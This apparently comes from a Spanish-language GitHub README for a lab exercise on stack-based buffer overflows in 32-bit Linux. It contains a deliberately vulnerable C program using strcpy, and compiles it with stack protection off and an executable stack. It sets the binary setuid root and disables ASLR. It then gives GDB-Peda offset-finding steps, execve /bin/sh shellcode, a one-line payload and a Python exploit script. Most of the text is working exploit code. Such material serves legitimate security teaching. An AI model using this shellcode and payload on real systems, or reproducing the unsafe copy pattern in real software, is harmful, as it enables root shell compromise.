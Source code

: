 **EXPLICACÍON DETALLADA EN** [Stack Based Buffer Overflow 32 Bits Linux](https://hacknotes.github.io/buffer%20overflow/buff32linuxStackBased/)

## Script
```bash
#include <stdio.h>
#include <string.h>

int vuln(char *str)
{
    char buf[64];
    strcpy(buf,str);
    printf("Cadena: %s\n",buf);
    return 0;
}
int main(int argc, char* argv[])
{
    vuln(argv[1]);
}
```

## Compilación

 ```bash
gcc -g -fno-stack-protector -z execstack -m32 buff.c -o buff
```

## Permisos
 
```bash
 chown root:root buff
 chmod +s buff
 echo 0 > /proc/sys/kernel/randomize_va_space
```
 
 ## GDB-Peda

Vemos los registros de la memoria

**Comando:** 
 ```bash
 i r
 ```
 
Crea cadenas aleatorias

**Comando:**
 ```bash
 pattern arg 100
 ```
 
 Ejecuta el binario

**Comando:**
 ```bash
 r
 ```
 
Encuentra el tamaño del offset.

**Comando:**
 ```bash
 pattern search
 ```
 
 Ver los últimos 100 registros de la pila.

**Comando:**
 ```bash
 x/100wx $esp
 ```
 Nobs (no operate code).
 ```bash
 \x90
 ```
 
 ## Shell
 ```bash
 "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
 ```
 
 ## Payload final
 ```bash
 $(python -c 'print "A"*76 + "\xa0\xef\xff\xbf" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
## Script en python
```python
#!/usr/bin/python
#Johnny Chafla | @jch | @hacknotes
#site https://hacknotes.github.io/

from struct import pack

if __name__=='__main__':

        offset = 76
        junk = "A"*offset
        EIP = pack("<I", 0xbfffefa0)
        nops = "\x90"*100
        shell= "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

payload = junk + EIP + nops + shell

print payload
```

**EXPLICACÍON DETALLADA EN** [Stack Based Buffer Overflow 32 Bits Linux](https://hacknotes.github.io/buffer%20overflow/buff32linuxStackBased/)
